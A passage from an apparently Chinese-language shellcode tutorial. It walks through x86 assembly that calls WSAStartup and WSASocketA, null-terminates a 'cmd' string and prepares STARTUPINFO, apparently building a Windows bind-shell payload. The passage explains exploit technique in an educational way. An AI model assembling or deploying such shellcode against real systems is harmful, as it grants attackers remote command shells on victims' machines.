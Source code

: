 OK，开始调用函数。我们通过`lodsd/call eax`来依次调用。首先用`WSAStartup`初始化`Winsock`。前面我们已经抬高栈顶开辟了占空间，所以这里只要让用结构体指针指向一个空的区域即可。

```c
int WSAStartup(
  _In_  WORD      wVersionRequested,
  _Out_ LPWSADATA lpWSAData
);
```

```assembly
; initialize winsock 
	push esp 					; use stack for WSADATA 
	push 0x02 				; wVersionRequested 
	lodsd 
	call eax 					; WSAStartup 
```

注意，上面函数成功则返回0。所以此时`eax`是0。注意我们之前提到`CMd`后面还不是尾零，而且后面许多函数也需要NULL，所以这里做一些辅助操作：

```assembly
; null-terminate "cmd" 
	mov byte ptr [esi + 0x13], al ; eax = 0 if WSAStartup() worked 
	
; clear some stack to use as NULL parameters 
	lea ecx, [eax + 0x30] 		; sizeof(STARTUPINFO) = 0x44, 
	mov edi, esp 
	rep stosd 				; eax is still 0 
```

接下来调用`WSASocket`，我们只关心前两个参数，其他给NULL就好。由于此时栈区都是NULL，省去了不少压栈操作：

```c
SOCKET WSASocket(
  _In_ int                af,
  _In_ int                type,
  _In_ int                protocol,
  _In_ LPWSAPROTOCOL_INFO lpProtocolInfo,
  _In_ GROUP              g,
  _In_ DWORD              dwFlags
);
```

```assembly
; create socket 
	inc eax 
	push eax					; type = 1 (SOCK_STREAM) 
	inc eax 
	push eax ; af = 2 (AF_INET) 
	lodsd 
	call eax ; WSASocketA 
	xchg ebp, eax				; save SOCKET descriptor in ebp (safe from 
								; being changed by remaining API calls) 
```

`bind()`/`listen()`/`accept()`可以循环调用。
